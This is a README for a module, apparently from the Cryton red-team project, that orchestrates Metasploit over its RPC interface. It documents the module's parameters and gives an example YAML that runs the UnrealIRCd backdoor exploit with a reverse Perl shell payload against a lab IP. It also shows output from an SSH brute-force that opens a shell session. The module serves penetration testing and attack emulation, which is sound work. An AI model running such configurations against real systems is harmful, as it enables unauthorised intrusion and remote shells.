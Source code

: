 # mod_msf

Module for orchestrating Metasploit Framework.

## Requirements

System requirements (those not listed in requirements.txt for python).

For this module to function
properly, [Metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) needs to be
installed.

After a successful installation of Metasploit-framework, you need to load msgrpc plugin. Easiest way to do this to open
your terminal and run `msfrpcd` with `-P toor` to use password and `-S` to turn off SSL (depending on configuration in
Worker config file).

**Optional:**

Another option is to run Metasploit using `msfconsole` and load msgrpc plugin using this command:

````bash
load msgrpc ServerHost=127.0.0.1 ServerPort=55553 User=msf Pass='toor' SSL=true
````

This is just default, feel free to change the parameters to suit your needs, but keep in mind that they must match your
worker config file.

After successfully loading the msgrpc plugin, you are all set and ready to use this module.

## Input parameters

Description of input parameters for module.

| Parameter name              | Parameter description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|-----------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `module_type`               | MSF module type (valid values: `exploit`, `auxiliary`, `post`, `payload`)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| `module_name`               | Name of metasploit module (without the `module_type` prefix)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| `module_options` (optional) | Custom dictionary with options for the given module (eg. `RHOSTS`, `RPORT`, ...)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `payload_name` (optional) | Name of the payload to use in combination with the given module (without the `payload/` prefix)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| `payload_options` (optional) | Custom dictionary with options for the given payload (eg. `LHOSTS`, `LPORT`, ...)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| `run_as_job` (optional) | Boolean value (`True` or `False`) wether the module should be executed as background job. If `True` the module is executed without waiting for the job to finish. If the `create_named_session` option is set in combination with this option being `True`, then this module waits until the job is finished and looks for a new session within the session-list. Be aware, that then the console output of the module's execution may not be fully captured. Default value: `False`<br/>If this option is set to `False`, then the module waits until the job is completed and the output of the module is fully captured. |
| `session_id` (optional) | Integer value which defines the `SESSION` parameter within the `module_options`. Use only in combination with metasploit modules, which support the `SESSION` parameter. Default value: `None`                                                                                                                                                                                                                                                                                                                                                                                                                              |
| `create_named_session` (optional) | Name of session which should be created within the modules execution. If this option is set, then the module waits up to `session_timeout_in_sec` seconds to look for a new session. Default value: `None`                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `exploit_timeout_in_sec` (optional) | Integer value with number of seconds to wait before the module execution will be terminated. Default value: `60`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `exploit_retries` (optional) | Integer value which defines the retries of the module in case of `exploit_timeout_in_sec` is reached. Default value: `1` (no retry, execute only once)                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| `session_timeout_in_sec` (optional) | Integer value which defines the number of seconds to wait until a new session should be opened after the modules execution. Should be used in combination of `create_named_session`. Default value: `60`                                                                                                                                                                                                                                                                                                                                                                                                                    |

This module can create sessions using
our [Cryton session management](https://cryton.gitlab-pages.ics.muni.cz/cryton-project/1.0/scenario/#session-management)
feature.

### Example yaml(s)

```yaml
attack_module: mod_msf_module
create_named_session: session_to_target_1
attack_module_args:
  module_type: "exploit"
  module_name: "unix/irc/unreal_ircd_3281_backdoor"
  module_options:
    RHOSTS: "172.28.128.99"
    RPORT: "6697"
  payload_name: "cmd/unix/reverse_perl"
  payload_options:
    LHOST: "172.28.128.3"
    LPORT: "6677"
  run_as_job: true
  exploit_timeout_in_sec: 15
  exploit_retries: 7
  session_timeout_in_sec: 20
```

## Output

Description of module output.

| Parameter name | Parameter description                                        |
| -------------- | ------------------------------------------------------------ |
| `return_code`  | 0 - success<br />-1 - fail                   |
| `std_out`      | Raw output of msf exploit                               |
| `mod_err`      | Error while running msf exploit                        |
| `mod_out`      | Same as std_out |

### Example

```
{
    'return_code': 0, 
    'std_out': "RHOSTS => 127.0.0.1\nUSERNAME => vagrant\nPASSWORD => vagrant\n[*] Auxiliary module running as background job 4.\n[*] 127.0.0.1:22 - Starting bruteforce\n[+] 127.0.0.1:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),122(kali-trusted),133(scanner),142(kaboxer),143(docker) Linux kali 5.10.0-kali7-amd64 #1 SMP Debian 5.10.28-1kali1 (2021-04-12) x86_64 GNU/Linux '\n[*] Command shell session 2 opened (127.0.0.1:35199 -> 127.0.0.1:22) at 2021-05-22 22:57:36 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n",
    'mod_err': None,
    'mod_out': "RHOSTS => 127.0.0.1\nUSERNAME => vagrant\nPASSWORD => vagrant\n[*] Auxiliary module running as background job 4.\n[*] 127.0.0.1:22 - Starting bruteforce\n[+] 127.0.0.1:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),122(kali-trusted),133(scanner),142(kaboxer),143(docker) Linux kali 5.10.0-kali7-amd64 #1 SMP Debian 5.10.28-1kali1 (2021-04-12) x86_64 GNU/Linux '\n[*] Command shell session 2 opened (127.0.0.1:35199 -> 127.0.0.1:22) at 2021-05-22 22:57:36 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n"
}

```